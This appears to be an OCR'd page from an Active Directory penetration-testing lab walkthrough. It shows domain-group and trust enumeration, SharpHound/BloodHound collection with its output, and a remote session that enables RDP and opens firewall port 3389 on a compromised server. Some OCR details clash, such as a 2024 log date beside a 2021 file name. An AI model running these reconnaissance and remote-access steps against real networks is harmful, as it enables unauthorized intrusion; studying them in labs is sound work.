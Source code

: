 ```powershell
Access Control Assistance Operators
Remote Management Users
System Managed Accounts Group
Storage Replica Administrators
Domain Computers
Domain Controllers
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Server Operators
Account Operators
Pre-Windows 2000 Compatible Access
Windows Authorization Access Group
Terminal Server License Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
DnsAdmins
DnsUpdateProxy
SQLManagers
```

check domain trusts.

```powershell
Get-NetDomainTrust

SourceName               TargetName    TrustType     TrustDirection
-----------              -----------   ----------    ---------------
Nebula.Cosmos.Local      Cosmos.Local  ParentChild   Bidirectional
```

before moving on, it's important to run `nslookup` on each machine in the environment to collect their IP addresses. it's also helpful to map out a graphical representation of the AD relationships, using BloodHound.

```powershell
PS C:\ad\tools> cd .\BloodHound-master\BloodHound-master\
PS C:\ad\tools\BloodHound-master\BloodHound-master> cd .\Ingestors\
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> . .\SharpHound.ps1
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> Invoke-BloodHound -CollectionMethod All
Initializing SharpHound at 10:49 PM on 7/3/2024

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[+] Creating Schema map for domain NEBULA.COSMOS.LOCAL using path CN=Schema,CN=Configuration,DC=NEBULA,DC=COSMOS,DC=LOCAL
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> Invoke-BloodHound -CollectionMethod LoggedOn

Initializing SharpHound at 10:49 PM on 7/3/2024

Status: 68 objects finished (+68 68)/s -- Using 103 MB RAM
Resolved Collection Methods: LoggedOn451
Compressing data to C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors\20210703224909_BloodHound.zip
[+] Creating Schema map for domain NEBULA.COSMOS.LOCAL using path CN=Schema,CN=Configuration,DC=NEBULA,DC=COSMOS,DC=LOCAL
```

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp
